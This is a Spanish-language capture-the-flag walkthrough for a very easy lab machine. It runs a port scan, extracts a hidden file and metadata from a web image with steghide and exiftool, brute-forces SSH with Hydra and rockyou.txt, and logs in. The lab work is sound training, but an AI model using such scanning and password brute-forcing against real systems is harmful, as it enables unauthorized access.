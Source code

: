 
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](./images/1.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)


![Img](2.png)



Nos vamos a la página web y nos sale :


![Img](3.png)


Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![Img](./images/Pasted%20image%2020240917193813.png)


```
cat secreto.txt
```

![Img](./images/Pasted%20image%2020240917193842.png)


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```
![Img](./images/Pasted%20image%2020240917194039.png)

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![Img](./images/Pasted%20image%2020240917194231.png)

```
ssh borazuwarah@172.17.0.2
```
![Img](./images/Pasted%20image%2020240917194342.png)


Y ya estamos adentro. 
